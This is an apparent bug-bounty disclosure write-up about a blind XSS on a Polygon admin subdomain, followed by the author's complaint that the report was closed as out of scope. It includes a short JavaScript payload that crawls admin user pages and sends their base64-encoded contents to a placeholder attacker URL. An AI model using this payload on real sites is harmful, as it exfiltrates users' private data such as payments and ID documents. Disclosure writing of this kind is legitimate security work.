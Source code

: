 Thanks to blind XSS I managed to get a pingback. Analyzing the response of the page in question, I noticed that there were admin functions, and that the admin had access to a lot of user information. I started writing a script to use with Blind XSS to leak possible data and to attach to the report I was going to make. Below a possible code:


```
var a = await fetch('https://subdomain.polygon.technology/admin/users');
var req = await a.text();

var patt = /<a[^>]*href=["'](\/admin\/users\/[^"']*)["']/g;

while(match=patt.exec(req)){
fetch('https://'+document.domain+match[1]).then(r=>r.text()).then(r=>fetch("https://attackerurl./?data="+btoa(r)));} 
}

```

The endpoints found in the response, in simple terms, were logs to support chats used by the Company.

**What did the vulnerability allow me to do?** 
Ability to exfiltrate data such as payment methods, passwords, ID cards, transactions, and more if exploited.

Once the report was made, the company explicitly said that web2 vulnerabilities are usually out of scope, but given the serious impact they would have taken it into consideration and let me know. After a few weeks they closed the report as out of scope without even giving me a bonus bounty. 

I reported the bug as `Primacy of Impact Exception`, because I considered it such. In their policy, more precisely, this was written:

```
Impacts only apply to assets in active use by the project like contracts on mainnet or web/app assets used in production.

```
**mainnet or web/app assets**

And also: 

```
If Whitehats can demonstrate a critical impact of code in production for an asset not in scope, Polygon Labs encourages you to submit your bug report using the “primacy of impact exception” asset as outlined below 

```

I found the way in which the company behaved sad and wrong, given the seriousness of the vulnerability, at least a bonus of a few thousand dollars would have been correct to give. I think it is useless to put absurd bounties that reach a million dollars for a single vulnerability on protocols, if then things like this are not managed appropriately. I felt a bit scammed by the company, but it's their personal choice and how they manage their security posture, I hope they never suffer big data leaks and financial losses through web apps in the future.

During the triage phase of the report, being my first report on the immunefi platform, I contacted [@0xMackenzieM](https://twitter.com/0xMackenzieM) for clarifications as it seemed that Polygon did not want to accept the vulnerability. I really appreciated the support given by immunefi, but in particular from [@0xMackenzieM](https://twitter.com/0xMackenzieM) in private chat. It was really good, perhaps to date the best triager that I met on each used platform.
